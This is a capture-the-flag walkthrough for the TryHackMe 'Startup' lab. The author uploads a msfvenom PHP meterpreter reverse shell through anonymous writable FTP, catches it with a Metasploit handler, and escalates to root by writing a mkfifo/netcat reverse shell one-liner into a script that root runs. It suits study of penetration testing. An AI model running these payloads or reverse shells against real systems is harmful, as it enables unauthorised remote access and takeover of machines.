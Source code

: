 ```yaml
---
layout: default
title : Startup - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 09, 2020**_

[Startup](https://tryhackme.com/room/startup) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV 10.10.252.135
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
|_-rw-r--r--    1 0        0             208 Nov 09 02:12 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:67:c9:25:f8:04:62:85:4c:00:c0:95:95:62:97:cf (RSA)
|   256 dd:97:11:35:74:2c:dd:e3:c1:75:26:b1:df:eb:a4:82 (ECDSA)
|_  256 27:72:6c:e1:2a:a5:5b:d2:6a:69:ca:f9:b9:82:2c:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.252.135/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.252.135/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```
The `/*****` is holding the shared files via `FTP`, we gonna need it later to execute our shell.

## FTP :

```                                                        
bvr0n@kali:~$ ncftp 10.10.252.135
Connecting to 10.10.252.135...                                                                                                         
ncftp / > ls
ftp/         notice.txt
ncftp / > ls -la
drwxrwxrwx    2 65534    65534        4096 Nov 09 17:24 ftp
```

I noticed that we can write in `/ftp`, so let's upload a reverse shell there, and execute it in the web browser :

Create a payload :

```
bvr0n@kali:~$ msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4444 -f raw > startup.php
```

Upload it into `/ftp/`:

```
ncftp /ftp > put startup.php
startup.php:                                            37.42 kB  124.55 kB/s  
Could not preserve times for startup.aspx: UTIME failed.
ncftp /ftp >
```
Set a Metasploit handler and exploit :

```
msf5 exploit(multi/handler) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Meterpreter session 2 opened (10.8.14.157:4444 -> 10.10.223.78:34244) at 2020-11-09 12:29:21 -0500
```

## Internal Enum :

So i stumbbles across a `Traffic Capture` file, after analysing it, i noticed a password for `Lennie`:
```
[sudo] password for www-data: 
@       ******************
6%      @
Sorry, try again.
```
for the root part, there is a script inside `/lennie` that going to allow us to pivot :

```
root@startup:~# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So basically what this script does,`root` is running what ever on `/etc/print.sh`, lucky for us is it writeable by us :D :

```
root@startup:~# ls -la /etc/print.sh 
-rwx------ 1 lennie lennie 91 Nov  9 18:48 /etc/print.sh
```
So i filled it with a basic reverse shell :

```
root@startup:~# cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f
```
Now we are set to go, set up a `nc` listener and execute `planner.sh`, and you should get a shell ;)

```
root@startup:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
startup
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
